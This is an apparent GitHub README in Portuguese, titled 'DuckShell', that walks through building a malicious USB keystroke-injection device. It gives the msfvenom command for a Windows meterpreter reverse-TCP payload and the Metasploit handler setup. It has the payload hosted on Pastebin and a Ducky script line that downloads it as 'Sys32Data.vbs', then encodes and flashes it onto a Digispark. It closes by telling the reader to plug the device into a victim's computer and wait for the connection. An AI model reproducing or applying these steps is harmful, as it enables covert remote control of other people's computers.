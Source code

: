 # DuckShell
=========================================================

#Crie seu Payload atraves do Metasploit usando o seguinte codigo>

msfvenom -p windows/meterpreter/reverse_tcp -f vbs –smallest LHOST=“attacker ip” LPORT=444 -o /root/Desktop/payload.txt
(Substitua "attacker ip" pelo seu ip local)

=========================================================

#Execute o Metasploit

systemctl start postgresql
msfconsole -q
> use exploit/multi/handler
> set PAYLOAD windows/meterpreter/reverse_tcp
> set LHOST "attacker ip"
> set RHOST 444
> exploit

#Jogue o codigo criado no arquivo "payload.txt" no Pastebin:

https://pastebin.com/
(Clique em "Create New Paste" e copie o a url criada para seu arquivo)

=========================================================

#Modifique o arquivo payload.duck inserindo o link do Pastebin na seguinte linha:

(Substitua >>link<< pelo link do Pastebin)
STRING $client.DownloadFile(' >>link<< ','Sys32Data.vbs')

=========================================================

#Execute o duckencoder no arquivo payload.duck

cat payload.duck | python duckencoder.py -p -l br > inject.bin

=========================================================

#Excute o duck2spark no arquivo inject.bin

./duck2spark.py -i inject.bin -l 1 -f 2000 -o inject.ino

=========================================================

#Abra o arquivo inject.ino no Arduino
Site Download Arduino
Windows(https://www.arduino.cc/download.php?f=/arduino-1.8.5-windows.exe)
Linux(https://www.arduino.cc/download_handler.php?f=/arduino-1.8.5-linux64.tar.xz)

=========================================================

#Carregue o codigo através do Arduino em seu Digispark
Site Compra(https://www.baudaeletronica.com.br/digispark-attiny85.html?gclid=CjwKCAjw8NfrBRA7EiwAfiVJpbY-3W7UOWFbtM9CaCiscVXVHin11btfv47m_17zTJEQGgbhG_D4zhoCnt8QAvD_BwE)

=========================================================

#Agora Basta Apenas Conectar ao Computador da Vitima e esperar a Conexão :)

=========================================================
